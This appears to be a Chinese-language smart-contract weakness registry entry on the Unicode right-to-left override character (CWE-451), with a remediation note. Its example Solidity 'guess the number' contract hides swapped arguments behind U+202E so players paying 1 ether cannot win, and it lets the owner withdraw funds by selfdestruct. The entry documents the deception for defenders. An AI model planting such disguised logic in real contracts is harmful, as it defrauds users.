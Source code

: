 ## 标题
右至左覆盖控制字符 (U+202E)

## 关联
[CWE-451: 用户界面 (UI) 误导关键信息](http://cwe.mitre.org/data/definitions/451.html)

## 描述
恶意行为者可以使用右至左覆盖的Unicode字符来强制进行RTL文本渲染，以混淆用户对合同真实意图的理解。

## 修复措施
U+202E字符有很少的合法用途，它不应该出现在智能合约的源代码中。

## 参考资料
* [智能合约的智慧](https://youtu.be/P_Mtd5Fc_3E?t=1813)
## 示例
### guess_the_number.sol
```solidity

/*
 * @来源: https://youtu.be/P_Mtd5Fc_3E
 * @作者: Shahar Zini
 */
pragma solidity ^0.5.0;

contract GuessTheNumber
{
    uint _secretNumber;
    address payable _owner;
    event success(string);
    event wrongNumber(string);

    constructor(uint secretNumber) payable public
    {
        require(secretNumber <= 10);
        _secretNumber = secretNumber;
        _owner = msg.sender;
    }

    function getValue() view public returns (uint)
    {
        return address(this).balance;
    }

    function guess(uint n) payable public
    {
        require(msg.value == 1 ether);

        uint p = address(this).balance;
        checkAndTransferPrize(/*The prize‮/*rebmun desseug*/n , p/*‭
                /*应受益的用户 */,msg.sender);
    }

    function checkAndTransferPrize(uint p, uint n, address payable guesser) internal returns(bool)
    {
        if(n == _secretNumber)
        {
            guesser.transfer(p);
            emit success("You guessed the correct number!");
        }
        else
        {
            emit wrongNumber("You've made an incorrect guess!");
        }
    }

    function kill() public
    {
        require(msg.sender == _owner);
        selfdestruct(_owner);
    }
}
```